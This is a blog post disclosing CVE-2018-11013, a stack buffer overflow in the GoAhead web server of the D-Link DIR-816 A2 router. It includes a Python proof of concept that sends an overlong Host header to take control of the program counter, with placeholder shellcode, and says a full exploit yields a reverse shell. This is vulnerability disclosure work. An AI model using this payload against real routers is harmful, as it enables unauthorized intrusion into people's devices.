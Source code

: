 ```yaml
---
title: D-Link DIR-816 A2 (CN) router stack-based buffer overflow
categories:
  - exploit
tags: router-exploitation
published: true
---
```


**This is the detail about CVE-2018-11013.**

# Detail

The vulnerability exists in the websRedirect function in the GoAhead web server. 

After access the router's WiFi or router's web service is opening on the Internet, send a GET request with
long HTTP Host header to sharefile function then triggers websRedirect function, and a piece of code do copy
Host header string to stack with no length limit locate on 0x41EAE4, so we could control the $pc register.

![]({{site.baseurl}}/images/05-13-18-1.png)

# Poc

A simple proving.

For the vendor's security, we will not provide the full exploitation before this issue report was confirmed.

**[poc.py]:**

```python

# Tested product: DIR-816 (CN)
# Hardware version: A2
# Firmware version: v1.10B05 (2018/01/04)
# Firmware name: DIR-816A2_FWv1.10CNB05_R1B011D88210.img
#

import socket

p = socket.socket(socket.AF_INET, socket.SOCK_STREAM)                 
p.connect(("192.168.0.1" , 80))

shellcode = "A"*0x200   # *** Not the correct shellcode for exploit ***

rn = "\r\n"
strptr = "\x60\x70\xff\x7f"
padding = "\x00\x00\x00\x00"

payload = "GET /sharefile?test=A" + "HTTP/1.1" + rn
payload += "Host: " + "A"*0x70 + strptr*2 + "A"*0x24  + "\xb8\xfe\x48" + rn
payload += "User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:59.0) Gecko/20100101 Firefox/59.0" + rn
payload += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8" + rn
payload += "Accept-Language: en-US,en;q=0.5" + rn
payload += "Accept-Encoding: gzip, deflate" + rn
payload += "Cookie: curShow=; ac_login_info=passwork; test=A" + padding*0x200 + shellcode + padding*0x4000 + rn
payload += "Connection: close" + rn
payload += "Upgrade-Insecure-Requests: 1" + rn
payload += rn

p.send(payload)
print p.recv(4096)
```

With the full exploitation, we could get a reverse shell:

![]({{site.baseurl}}/images/05-13-18-2.png)

![]({{site.baseurl}}/images/05-13-18-3.png)
